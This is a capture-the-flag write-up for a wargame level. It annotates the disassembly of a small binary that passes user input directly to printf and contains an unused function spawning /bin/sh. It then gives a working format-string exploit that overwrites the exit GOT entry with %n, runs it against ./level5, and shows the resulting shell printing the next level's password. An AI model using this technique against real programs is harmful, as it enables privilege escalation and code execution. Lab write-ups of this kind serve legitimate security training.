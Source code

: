 
#### notes
```
8049854  m    : global variable m (useless here)
80484a4  o    : fn : called in n
80484c2  n    : fn : called in main
8048504  main : rak 3arf
```

#### 0x080484c2 : n() : disassembly
_`<0> -> <+3> : prepare stack frame for n function with size 536`_
```c
0x080484c2 <+0>:	push   ebp
0x080484c3 <+1>:	mov    ebp,esp
0x080484c5 <+3>:	sub    esp,0x218
```
_`<+9> -> <+35> : prepare arguments for fgets(str, size, stdin)`_
```c
0x080484cb <+9>:	mov    eax,ds:0x8049848 // stdin
0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax // esp+8 = stdin
0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200 // esp+4 = 512
0x080484dc <+26>:	lea    eax,[ebp-0x208] // char str[512]
0x080484e2 <+32>:	mov    DWORD PTR [esp],eax // esp = str
0x080484e5 <+35>:	call   0x80483a0 <fgets@plt> // fgets(str, 512, stdin)
```
_`<+40> -> <+49> : print the input from user taken by fgets`_
```c
0x080484ea <+40>:	lea    eax,[ebp-0x208] // eax = str
0x080484f0 <+46>:	mov    DWORD PTR [esp],eax // esp = *str
0x080484f3 <+49>:	call   0x8048380 <printf@plt> // printf(str)
```
_`<+54> -> <+61> : exit function`_
```c
0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```



#### 0x080484a4 : o() : disassembly
_`<+0> -> <+3> : init stack with size 24`_
```c
0x080484a4 <+0>:	push   ebp
0x080484a5 <+1>:	mov    ebp,esp
0x080484a7 <+3>:	sub    esp,0x18
```
_`<+6> -> <+13> : fork the shell with stystem call`_
```c
0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0 // "/bin/sh"
0x080484b1 <+13>:	call   0x80483b0 <system@plt> // system("/bin/sh")
```
_`<+18> -> <+25> : exit function`_
```c
0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
0x080484bd <+25>:	call   0x8048390 <_exit@plt>
```

---
#### Solution :
---

##### explanation of the exploit:

since the function `o` that calls the shell is not called in `n` function nor the main
so the idea here is : find a a vulnerability to call `o` from `n`
instead of exit the `n` we have to redirect it to execute the `o`
__how we will do that ?__ : 
- we have to overwrite the address where `<_exit@plt>` jumps (___global offset table___ __GOT__, search about it), to the address of `o` (_0x080484a4_)
ok lets start the process:

looking at the assembly of exit function inside the n function
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb)
```
the exit function jumps into `0x8049838` 
we have to change the value the value of this address by the address of `o` ->`0x080484a4`
since we have only printf as a door to the exploit we will have to use the `%n` methode to write address into address
___what ?___
yes , simply we convert the address we want to change with to decimal 
in our case:
```
exit -> 0x8049838
o    -> 0x080484a4(hex) -> 134513828(decimal)
```

final exploit : 
```shell
(python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5

whoami
level6
pwd
/home/user/level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
